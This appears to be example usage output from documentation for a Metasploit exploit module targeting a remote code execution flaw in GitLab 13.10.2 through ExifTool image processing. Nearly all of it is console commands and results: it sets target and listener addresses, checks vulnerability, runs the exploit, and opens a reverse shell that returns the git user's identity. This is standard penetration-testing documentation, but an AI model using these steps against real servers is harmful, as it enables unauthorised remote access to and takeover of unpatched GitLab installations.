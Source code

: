 ```
[*] Uploading uOQXfShf.jpg to /0vHnowZA8ftJ
[+] Exploit successfully executed.
[*] Command Stager progress -  35.40% done (285/805 bytes)
[*] Uploading Ov2VCdIih.jpg to /NefATU
[+] Exploit successfully executed.
[*] Command Stager progress -  53.04% done (427/805 bytes)
[*] Uploading lYJsr5whY.jpg to /TOLaoA1q
[+] Exploit successfully executed.
[*] Command Stager progress -  70.68% done (569/805 bytes)
[*] Uploading MwuCYLqHh.jpg to /lMTzzMxXjFye
[+] Exploit successfully executed.
[*] Command Stager progress -  88.20% done (710/805 bytes)
[*] Uploading dkp8oskGlDJI.jpg to /VglvVbpx
[*] Sending stage (36 bytes) to 10.0.0.7
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (805/805 bytes)
[*] Command shell session 1 opened (10.0.0.9:4444 -> 10.0.0.7:48694 ) at 2021-11-03 08:34:02 -0700

id
uid=973(git) gid=972(git) groups=972(git) context=system_u:system_r:unconfined_service_t:s0
whoami
git
```

### GitLab 13.10.2 on Ubuntu 20.04.2 x64. Get reverse shell.

```
msf6 > use exploit/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf6 exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.3
RHOST => 10.0.0.3
msf6 exploit(multi/http/gitlab_exif_rce) > check

[*] Uploading bSjUnQsE.jpg to /Da8eKs2
[+] 10.0.0.3:80 - The target is vulnerable. The error response indicates ExifTool was executed.
msf6 exploit(multi/http/gitlab_exif_rce) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix Command
   1   Linux Dropper


msf6 exploit(multi/http/gitlab_exif_rce) > set target 0
target => 0
msf6 exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf6 exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse double SSL handler on 10.0.0.9:4444
[*] Executing Unix Command for cmd/unix/reverse_openssl
[*] Uploading 1SynV6Z.jpg to /9v3LPsOOBuH
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo tZscWcue53S3jgeY;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "tZscWcue53S3jgeY\n"
```